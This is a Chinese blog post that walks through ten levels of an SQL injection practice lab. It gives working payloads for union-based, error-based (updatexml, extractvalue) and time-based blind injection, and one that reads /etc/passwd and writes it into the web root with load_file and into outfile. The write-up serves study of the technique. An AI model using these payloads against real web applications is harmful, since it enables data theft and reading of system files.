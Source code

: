 ```yaml
---
layout: post
title: SQL闯关1-10
date: 2018-10-30
categories: blog
tags: [WEB]
description: 文艺的流氓。
---
```

### 第一题：

 - 第一题是萌新题目。啥子都没有过滤。就可以直接注出来(我自己是到文件中显示了SQL语句)可以看的到十单引号闭合
 - 那么就直接使用 order by 猜解字段数量, 猜解字段数量的时候建议使用二分法来进行猜解
 - Payload：SELECT * FROM users WHERE id = ‘1’ order by 3 — b ‘ LIMIT 0,1
 - 猜解出来了三个字段。接着使用union 来进行确认回显的位置(需要前面查询不到数据)
 - Payload：SELECT * FROM users WHERE id='1123' union select 1,2,3 -- b' LIMIT 0,1
 - 接下来就可以使用information_schema数据库来进行查找我们需要的数据了
 - 查询处用户是谁。还有数据库的名字
 - Payload: SELECT * FROM users WHERE id='1123' union select 1,user(),database() -- b' LIMIT 0,1
 - 使用不存在的变量,然后爆出数据名字
 - Payload：SELECT * FROM users WHERE id='11' union select 1,a(),3 -- b' LIMIT 0,1 
![iReT2T.png](https://s1.ax1x.com/2018/10/30/iReT2T.png)
 - 常用的一些mysql变量：
| name  | Effect |
| ------------- | ------------- |
| VERSION()  | 显示版本信息  |
| @@VERSION()  | 显示版本信息  |
| @@GLOBAL.VERSION()  | 显示版本信息  |
| User()  | 显示当前用户  |
| @@HOSTNAME  | 显示主机名  |
| System_user()  | 显示当前用户  |
| Current_user  | 显示当前用户  |
| Session_user()  | 显示当前用户  |
| Schema()  | 显示当前数据库  |

[![iRe7xU.png](https://s1.ax1x.com/2018/10/30/iRe7xU.png)](https://imgchr.com/i/iRe7xU)
 - 利用information进行查询处数据库
 - Payload：SELECT * FROM users WHERE id='11' union select null,table_name,null from information_schema.tables limit 0,1 -- b' LIMIT 0,1
 - 第一题就说完了。如果需要拿shell的话。是需要知道绝对路径的

### 第二题：

 - 第二题是int类型的注入。直接使用：payload：SELECT * FROM users WHERE id=123 union select 1,database(),3 -- b LIMIT 0,1
 - 直接跟上一个union 就爆出来了数据库名字
[![iReqr4.png](https://s1.ax1x.com/2018/10/30/iReqr4.png)](https://imgchr.com/i/iReqr4)

### 第三题：
 - 第三题是进行括号闭合。那么只需要使用括号闭合前面的就可以进行注入，因为没有其他的过滤
Payload：http://192.168.197.129/sql/Less-3/index.php?id=123') union select 1,database(),3 — b
 - SQL语句：SELECT * FROM users WHERE id=('123') union select 1,database(),3 -- b') LIMIT 0,1
[![iReLqJ.png](https://s1.ax1x.com/2018/10/30/iReLqJ.png)](https://imgchr.com/i/iReLqJ)

### 第四题：
 - 第四题看了下SQL语句发现就是双引号加上了括号闭合
 - payload：http://192.168.197.129/sql/Less-4/index.php?id=123") union select 1,database(),3 -- b
 - SQL语句：SELECT * FROM users WHERE id=("123") union select 1,database(),3 -- b") LIMIT 0,1
![iReXZ9.png](https://s1.ax1x.com/2018/10/30/iReXZ9.png)

### 第五题：
 - 第五题是一个盲注。没有回显的那种。我使用的方法就是查询一个不存在的变量。然后就爆出了数据库名称
但是这种方法就显的有点鸡肋了。我就使用了updatexml这个函数来进行注入
 - payload：http://192.168.197.129/sql/Less-5/index.php?id=123' union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- b
 - SQL语句：SELECT * FROM users WHERE id='123' union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- b' LIMIT 0,1
![iRmPMD.png](https://s1.ax1x.com/2018/10/30/iRmPMD.png)
 - 还可以利用extractvalue来进行注入。 其中updatexml只能够返回32为数据 结合substr能够达到很好的效果
 - payload：http://192.168.197.129/sql/Less-5/index.php?id=121' union select extractvalue(rand(),concat(0x3a,(select table_name from information_schema.tables where table_schema=database() limit 1,1))) -- b
 - SQL语句：SELECT * FROM users WHERE id='121' union select extractvalue(rand(),concat(0x3a,(select table_name from information_schema.tables where table_schema=database() limit 1,1))) -- b' LIMIT 0,1
![iRmFqH.png](https://s1.ax1x.com/2018/10/30/iRmFqH.png)

### 第六题：
 - 第六题同样也就是盲注。相比于上一题也就是使用的双引号闭合
 - payload：http://192.168.197.129/sql/Less-6/index.php?id=1" union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- hacker
 - SQL：SELECT * FROM users WHERE id="1" union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- b" LIMIT 0,1
![iRmEdA.png](https://s1.ax1x.com/2018/10/30/iRmEdA.png)

### 第七题：
 - 第七题是需要插入文件。可以直接使用outfile这个函数来进行注入
 - 在离表哥哪里学习到了一个骚姿势。就是配合load_file函数就可以达到把主机上的文件任意读取
 - payload：http://192.168.197.129/sql/Less-7/index.php?id=112')) union select null,null,load_file("/etc/passwd") into outfile "/var/www/html/sql/test.php" -- hack
 - SQL语句：SELECT * FROM users WHERE id=(('112')) union select null,null,load_file("/etc/passwd") into outfile "/var/www/html/sql/test.php" -- hack')) LIMIT 0,1
![iRmmJP.png](https://s1.ax1x.com/2018/10/30/iRmmJP.png)

### 第八题：
 - 同样是盲注。只不过用不了报错注入。因为不会提示错误信息。但是返回还是有正确的和错误的。所以还是能够使用时间注入来进行注入的
 - 我自己是使用的时间注入来进行测试的（也是能够使用盲注if）
 - Payload：http://192.168.197.129/sql/Less-8/index.php?id=1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) — hacker
 - SQL：SELECT * FROM users WHERE id='1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) -- ha' LIMIT 0,1
![iRmlLQ.png](https://s1.ax1x.com/2018/10/30/iRmlLQ.png)

### 第九题：
 - 这一题就必须使用时间注入了。因为我查看了源代码发现了。真和否返回的结果都是一样的。所以只能够基于时间来进行注入。也是单引号闭合,直接使用上一题的payload就可以了
 - Payload:http://192.168.197.129/sql/Less-9/index.php?id=1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) — hacker
 - SQL:SELECT * FROM users WHERE id='1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) -- ha' LIMIT 0,1
![iRm8ds.png](https://s1.ax1x.com/2018/10/30/iRm8ds.png)

### 第十题：
 - 这一题就是双引号闭合。同样的也是使用时间注入.
 - Payload:http://192.168.197.129/sql/Less-10/index.php?id=12312" union select null,null,if(user() like 'root@localhost',sleep(5),null) — hcaker
 - SQL:SELECT * FROM users WHERE id="12312" union select null,null,if(user() like 'root@localhost',sleep(5),null) -- hcaker" LIMIT 0,1
![iRmYiq.png](https://s1.ax1x.com/2018/10/30/iRmYiq.png)

#### 剩下的尽快补上。。。。。。


![wujinliun](https://app.yinxiang.com/shard/s46/res/37df04d7-120e-404e-b542-aadba914b39b.png)







